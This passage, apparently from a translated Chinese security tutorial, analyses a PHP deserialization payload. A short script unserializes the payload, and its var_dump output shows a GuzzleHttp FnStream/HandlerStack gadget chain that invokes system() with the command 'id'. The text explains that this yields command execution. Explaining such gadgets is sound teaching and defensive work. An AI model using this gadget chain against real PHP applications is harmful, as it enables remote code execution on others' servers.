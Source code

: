 接下来，我们将反序列化有效负载。

# 反序列化有效负载

为了更清楚地理解有效负载，我们可以将其反序列化并在其上使用`var_dump`。根据 PHP 手册，`var_dump`显示一个或多个表达式的结构化信息（包括类型和值）。数组和对象由`var_dump`递归探索，值缩进以显示结构。我们也可以使用`print_r()`功能执行相同的操作：

![](img/1e4e11bb-a571-4201-ad87-ca29d6df17ec.png)

因为我们使用了基于`GuzzleHttp`客户端的有效负载，所以我们需要安装 Guzzle。我们可以使用以下 PHP 代码取消序列化：

```
<?php
require __DIR__ . '/vendor/autoload.php';
$obj= unserialize(json_decode(file_get_contents("./payload.txt")));
var_dump($obj);
?>
```

运行代码将为我们提供以下输出：

```
object(GuzzleHttp\Psr7\FnStream)#3 (2) {["methods":"GuzzleHttp\Psr7\FnStream":private]=>array(1) {["close"]=>array(2) {[0]=>object(GuzzleHttp\HandlerStack)#2 (3) {["handler":"GuzzleHttp\HandlerStack" :private]=>string(1) "id"["stack":"GuzzleHttp\HandlerStack":private]=>array(1) {[0]=>array(1) {[0]=>string(4) "system"}}["cached":"GuzzleHttp\HandlerStack" :private]=>bool(false)}[1]=>string(7) "resolve"}}["_fn_close"]=>array(2) {[0]=>object(GuzzleHttp\HandlerStack)#2 (3) {["handler":"GuzzleHttp\HandlerStack" :private]=>string(1) "id"["stack":"GuzzleHttp\HandlerStack":private]=>array(1) {[0]=>array(1) {[0]=>string(4) "system"}}["cached":"GuzzleHttp\HandlerStack" :private]=>bool(false)}[1]=>string(7) "resolve"}
```

当执行时，这将导致`system()`函数以作为参数传递给该函数的命令执行，并将输出返回给我们。

